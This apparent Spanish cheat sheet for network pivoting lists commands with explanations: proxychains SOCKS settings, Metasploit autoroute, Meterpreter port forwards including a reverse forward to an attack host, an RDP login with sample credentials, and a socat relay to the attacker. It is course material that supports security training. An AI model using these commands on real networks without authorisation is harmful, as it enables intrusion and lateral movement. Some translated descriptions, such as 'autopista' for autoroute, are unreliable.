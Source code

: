 | `socks4 127.0.0.1 9050`                                                                                                                                                                                            | Línea de texto que debe agregarse a /etc/proxychains.conf para garantizar que se utilice un proxy SOCKS versión 4 en combinación con proxychains en la dirección IP y el puerto especificados.                                                                                                        |
| `Socks5 127.0.0.1 1080`                                                                                                                                                                                            | Línea de texto que debe agregarse a /etc/proxychains.conf para garantizar que se utilice un proxy SOCKS versión 5 en combinación con proxychains en la dirección IP y el puerto especificados.                                                                                                        |
| `msf6 > use post/multi/manage/autoroute`                                                                                                                                                                           | Comando Metasploit utilizado para seleccionar el módulo de autopista.                                                                                                                                                                                                                                 |
|                                                                                                                                                                                                                    |                                                                                                                                                                                                                                                                                                       |
| `meterpreter > help portfwd`                                                                                                                                                                                       | Comando meterpreter utilizado para mostrar las características del comando portfwd.                                                                                                                                                                                                                   |
| `meterpreter > portfwd add -l 3300 -p 3389 -r <IPaddressofTarget>`                                                                                                                                                 | Comando portfwd basado en Meterpreter que agrega una regla de reenvío a la sesión actual de Meterpreter. Esta regla reenvía el tráfico de red en el puerto 3300 de la máquina local al puerto 3389 (RDP) del destino.                                                                                 |
| `xfreerdp /v:localhost:3300 /u:victor /p:pass@123`                                                                                                                                                                 | Utiliza xfreerdp para conectarse a un host remoto a través de localhost:3300 usando un conjunto de credenciales. Deben existir reglas de reenvío de puertos para que esto funcione correctamente.                                                                                                     |
| `netstat -antp`                                                                                                                                                                                                    | Se utiliza para mostrar todo ( `-a`) conexiones de red activas con ID de proceso asociados. `-t` muestra sólo conexiones TCP. `-n` muestra sólo direcciones numéricas. `-p` muestra los ID de proceso asociados con cada conexión mostrada.                                                           |
| `meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>`                                                                                                                                          | Comando portfwd basado en Meterpreter que agrega una regla de reenvío que dirige el tráfico que ingresa por el puerto 8081 al puerto `1234` escuchando en la dirección IP del host de ataque.                                                                                                         |
| `meterpreter > bg`                                                                                                                                                                                                 | Comando basado en Meterpreter utilizado para ejecutar la sesión de metepreter seleccionada en segundo plano. Similar al proceso en segundo plano en Linux                                                                                                                                             |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofAttackHost>:80`                                                                                                                                                      | Utiliza Socat para escuchar en el puerto 8080 y luego bifurcarse cuando se recibe la conexión. Luego se conectará al host del ataque en el puerto 80.                                                                                                                                                 |